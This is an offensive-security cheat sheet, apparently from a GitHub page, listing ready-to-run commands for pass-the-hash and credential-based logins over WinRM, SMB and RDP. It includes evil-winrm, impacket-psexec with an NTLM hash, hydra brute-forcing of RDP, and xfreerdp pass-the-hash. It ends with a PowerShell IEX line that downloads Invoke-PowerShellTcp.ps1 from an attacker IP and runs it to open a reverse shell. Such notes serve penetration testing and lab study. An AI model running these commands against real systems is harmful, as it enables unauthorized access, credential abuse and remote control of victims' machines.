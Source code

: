 [+] medusa

##  PTH / Login With Creds [RDP,SMB,LDAP,FTP,SSH,WEB]

>   evil-winrm -u admin -i 192.168.2.10 -p 'Password@123'
>   evil-winrm -u domain\\admin -i 192.168.2.10 -p 'Password@123'

>   impacket-psexec 'FRIENDS/svc_backup:Password9@192.168.159.149'  [DC-IP]

└─# impacket-psexec 'Administrator@192.168.161.59' -hashes aad3b435b51404eeaad3b435b51404ee:8c802621d2e36fc074345dded890f3e5

[+] RDP

>   hydra -l administrator -p 123456 rdp://10.2.2.86
>   xfreerdp /u:user /p:password321 /cert:ignore /v:10.10.175.87 /d:domainname
>   xfreerdp /u:user /p:password321 /cert:ignore /v:10.10.175.87
>   xfreerdp /v:127.0.0.1 /u:MyUser /p:MyPassword
>   proxychains rdesktop 10.2.2.86 -u john -p easyas123 -g 1024x768 -x 0x80
>   rdesktop -u user -p password321 10.10.102.190
>   xfreerdp /u:admin /pth:<HASH> /d:pentesting.local /v:192.168.15.20
>   reminna

[+] Powershell
  
-   $SecPass = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
-   $cred = New-Object System.Management.Automation.PSCredential('Administrator', $SecPass)
-   Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.32/Invoke-PowerShellTcp.ps1')" -Credential $cred

